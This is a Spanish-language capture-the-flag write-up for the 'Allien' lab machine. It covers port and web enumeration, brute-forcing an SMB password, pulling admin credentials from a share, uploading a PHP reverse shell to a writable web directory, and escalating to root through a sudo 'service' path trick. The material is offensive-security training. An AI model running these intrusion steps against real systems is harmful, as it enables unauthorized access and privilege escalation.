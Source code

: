 
# Allien
![image](https://github.com/user-attachments/assets/7fcabe7e-bd29-4322-916d-3478628d8599)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```bash
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
```
Como el puerto 80 está abierto hacemos fuzzing con gobuster para ver qué páginas encontramos.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 3543]
/info.php             (Status: 200) [Size: 72710]
/productos.php        (Status: 200) [Size: 5229]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Esto descubre varios directorios útiles, entre ellos /index.php y /productos.php. Al no encontrar información relevante en el contenido de estas rutas, seguimos enumerando puertos de red 139 y 445 (SMB).

Enumeración de SMB
```bash
enum4linux 172.17.0.2
```
Nos encontramos con varios suario y mediante fuerza bruta obtenemos la contraseña de uno de ellos.

![image](https://github.com/user-attachments/assets/4c5a3858-ae93-469c-8f8c-82c8d61bef6c)

## Explotación.

Lanzamos **crackmapexec** para uno de los usuario *satriani7*
```bash
crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/5ec658f3-1c70-4b61-b6a8-cffd0e325fe4)

Ahora podmeos con smbmap enumerar recursos del usuario *satriani7*
```bash
smbmap -H 172.17.0.2 -u satriani7 -p 50cent
````
![image](https://github.com/user-attachments/assets/58f7b77d-fc96-4565-97ae-780e3e606c1c)

Vemos que tenemos acceso de lectura a los directorios *myshare* y *backup24* que es donde encontraremos información útil.
```bash
smbclient //172.17.0.2/backup24 -U satriani7
```
![image](https://github.com/user-attachments/assets/75cc8b4c-4f6e-48d7-bf62-ef59f8771a73)

```bash
get credentials.txt
```
En credentials.txt encontramos credenciales de usuarios, incluyendo las del usuario administrador. Ahora probamos estos datos para descubrir más recursos compartidos:
```bash
smbmap -H 172.17.0.2 -u administrador -p Adm1nP4ss2024
```
![image](https://github.com/user-attachments/assets/cb47faa2-92e4-48d3-8bb0-55dca5511e67)

```bash
smbclient //172.17.0.2/home -U administrador
```
![image](https://github.com/user-attachments/assets/2dabfdbc-60f6-454e-9f1a-5b3ef57ea7be)

Podemos observar que es el directorio donde se encuentras las páginas php, así que como tenemos permisos de escritura subimos una revershell, en mi caso de [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), sustituimos la IP y PUERTO con los nuestros y la subimos al directorio.

```bash
put shell.php
```
Una vez que la hemos subido, nos ponemos en escucha por el puerto especificado y en el navegador ponemos la dirección de la página subida.

![image](https://github.com/user-attachments/assets/ff80edc9-4773-4dc7-a90f-d6dffff7706f)

![image](https://github.com/user-attachments/assets/e81330b0-b89a-41e2-9aee-af859842266d)

Hacemos una tratamiento de la tty.
```bash
script -c bash /dev/null
Ctrl+Z
stty -echo raw;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Escalada de Privilegios.
Ya estamos dentro de la máquina como el usuario *www-data*, vemos si tenemos algún prvilegio sudo y vemos que podemos ejecutar */usr/sbin/service* como **root**.

![image](https://github.com/user-attachments/assets/9cc801a0-15a4-4fa8-a604-2bfa393286a2)

```bash
sudo /usr/sbin/service ../../bin/bash
```
![image](https://github.com/user-attachments/assets/8fc3fe3e-46c5-401b-8e16-f37e3332cb3f)








